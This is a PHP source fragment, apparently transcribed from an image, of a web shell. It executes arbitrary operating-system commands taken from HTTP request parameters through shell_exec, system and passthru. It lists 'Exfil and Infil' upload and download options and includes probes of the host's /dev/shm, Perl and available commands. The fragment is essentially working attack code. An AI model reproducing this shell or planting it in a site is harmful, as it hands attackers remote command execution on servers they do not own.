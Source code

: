 ```php
    echo "      system";
    echo "      passthru";
    echo "      eval";
    echo "Exfil and Infil:";
    echo " upload : ";
    echo " download : ";

    if (isset($_REQUEST["shell_exec"])) {
        echo "<pre>";
        $shell_exec = $_REQUEST["shell_exec"];
        shell_exec($shell_exec);
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["system"])) {
        echo "<pre>";
        $system = $_REQUEST["system"];
        system($system);
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["passthru"])) {
        echo "<pre>";
        $passthru = $_REQUEST["passthru"];
        passthru($passthru);
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["eval"])) {
        echo "<pre>";
        $eval = $_REQUEST["eval"];
        passthru($eval);
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["testcmds"])) {
        echo "<pre>";
        $test = testcmds();
        echo "$test";
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["testDevShm"])) {
        echo "<pre>";
        $test = testDevShm();
        echo "$test";
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["testperl"])) {
        echo "<pre>";
        $test = testperl();
        echo "$test";
        echo "</pre>";
        die();
    }

```